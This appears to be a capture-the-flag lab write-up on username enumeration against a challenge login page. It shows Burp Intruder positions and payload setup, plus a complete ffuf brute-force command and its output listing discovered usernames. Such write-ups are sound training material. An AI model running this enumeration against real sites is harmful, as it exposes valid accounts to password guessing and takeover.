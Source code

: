 # Challenge #4 - Foo Hosting 1

## Objectives

- The web application is vulnerable to "username enumeration," and your goal is to find as much as you can usernames.
- You have to find at least four usernames: one that begins with the G, one with the H, with the P and with the Z

## Hinsts

- Recommended tools
  - Burps suite
  - Web Browser
  - User Enumeration

## What you will learn

- How to enumerate the usernames of a web application
- How to configure advanced options of Burp Suite
- How to use Burp Intruder to perform dictionary attacks

## Steps

With burp enable, try to login to the site with any invalid credentials.

http://3.challenge.auth.site/login.php

Username: example
Password: example

ERROR: Invalid username. 

Open burp history and look the login post request.

Send the request to burp intruder.

On positions, clear all positions and then add only username. Keep the attack type as snipper.

```
username=§example§&password=example
```

In payloads, go to payload options and click in load. Select one username wordlist, if you don't have one, download one from the link below.

```
https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt
```

In options go to grep extract and them click in add. Select the text "ERROR: Invalid username." and ok.

Start the attack.

**If you're using burp community, this option can take to long. The option below can be a lot quicker.**

## Ffuf way

```
ffuf -c -v -w /usr/share/seclists/Usernames/Names/names.txt -u 'http://3.challenge.auth.site/login.php' -fr "Invalid username" -X POST -d 'username=FUZZ&password=example' -H 'Content-Type: application/x-www-form-urlencoded'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://3.challenge.auth.site/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=example
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: Invalid username
________________________________________________

[Status: 200, Size: 4034, Words: 168, Lines: 142]
| URL | http://3.challenge.auth.site/login.php
    * FUZZ: ginger

[Status: 200, Size: 4034, Words: 168, Lines: 142]
| URL | http://3.challenge.auth.site/login.php
    * FUZZ: hamish

[Status: 200, Size: 4035, Words: 168, Lines: 142]
| URL | http://3.challenge.auth.site/login.php
    * FUZZ: preston

[Status: 200, Size: 4035, Words: 168, Lines: 142]
| URL | http://3.challenge.auth.site/login.php
    * FUZZ: zachary

:: Progress: [10177/10177] :: Job [1/1] :: 324 req/sec :: Duration: [0:00:27] :: Errors: 0 ::
```